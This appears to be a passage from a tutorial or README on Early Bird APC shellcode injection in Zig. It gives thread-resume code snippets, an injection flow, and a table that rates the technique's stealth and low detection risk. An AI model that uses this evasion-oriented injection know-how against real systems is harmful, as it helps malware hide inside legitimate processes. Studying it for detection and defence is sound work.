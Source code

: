 ### CREATE_SUSPENDED Resume

```zig
.CREATE_SUSPENDED => {
    print("[i] Resuming The Target Process Thread ... ", .{});
    const result = ResumeThread(hThread);
    if (result == ~@as(windows.DWORD, 0)) {
        print("[!] ResumeThread Failed With Error : {d} \n", .{windows.kernel32.GetLastError()});
    } else {
        print("[+] DONE \n\n", .{});
    }
},
```

### DEBUG_PROCESS Resume

```zig
.DEBUG_PROCESS => {
    print("[i] Detaching The Target Process ... ", .{});
    _ = DebugActiveProcessStop(dwProcessId);
    print("[+] DONE \n\n", .{});
},
```

## Complete Execution Flow

1. **Process Creation**: Create target process in suspended/debug state
2. **Memory Allocation**: Allocate executable memory in target process
3. **Shellcode Injection**: Write payload to allocated memory and make it executable
4. **APC Queuing**: Queue shellcode as APC to main thread
5. **Process Resume**: Resume execution triggering APC
6. **Cleanup**: Close handles and exit

## Comparison with Standard APC Injection

| Aspect             | Standard APC Injection            | Early Bird APC Injection                  |
| ------------------ | --------------------------------- | ----------------------------------------- |
| **Target**         | Existing process/thread           | Newly created process                     |
| **Timing**         | Runtime injection                 | Pre-execution injection                   |
| **Detection Risk** | Medium (runtime behavior changes) | Lower (appears as process initialization) |
| **Thread State**   | Must find/create alertable thread | Uses main thread directly                 |
| **Complexity**     | Moderate                          | Higher (cross-process operations)         |
| **Stealth**        | Good                              | Excellent                                 |
| **Reliability**    | Depends on thread alertability    | High (guaranteed execution)               |

## Security Evasion Benefits
